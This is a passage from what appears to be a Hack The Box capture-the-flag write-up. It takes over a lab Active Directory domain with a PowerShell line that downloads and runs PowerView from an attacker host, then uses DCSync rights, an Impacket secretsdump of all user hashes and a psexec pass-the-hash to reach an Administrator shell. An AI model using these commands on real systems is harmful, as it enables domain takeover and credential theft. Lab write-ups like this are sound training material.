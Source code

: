 ```text
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.45:5555/PowerView.ps1')
```

Use the _Add-DomainObjectAcl_ function in PowerView to give the user DCSync privileges.

```text
$pass = convertto-securestring 'password' -AsPlainText -Force$cred = New-Object System.Management.Automation.PSCredential('htb\rana', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rana -Rights DCSync
```

On the attack machine, use the [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) Impacket script to dump the password hashes of all the users on the domain.

```text
impacket-secretsdump htb.local/rana:password@10.10.10.161
```

We get back the following result.

![](../images/max/1282/1*JAQEZrr25tXnVVJB1U6TvQ.png)

Use the [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) Impacket script to perform a pass the hash attack with the Administrator’s hash.

```text
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```

We get a shell!

![](../images/max/1311/1*zpRXRpDak9HjctGhr-r38g.png)

